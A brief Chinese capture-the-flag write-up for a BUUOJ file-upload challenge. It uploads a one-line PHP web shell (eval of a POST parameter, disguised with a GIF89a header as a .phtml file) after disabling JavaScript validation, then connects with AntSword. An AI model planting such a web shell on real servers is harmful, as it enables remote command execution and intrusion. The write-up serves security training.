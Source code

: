 # 分析

来自[[ACTF2020 新生赛]Upload](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Upload)，文件上传

先传一句话木马shell.phtml，发现前端有验证，禁用js再上传

```php
GIF89a
<?php @eval($_POST['cmd'])?>
```

![image-20240916192751077](image/image-20240916192751077.png)

使用蚁剑连接

![image-20240916192907242](image/image-20240916192907242.png)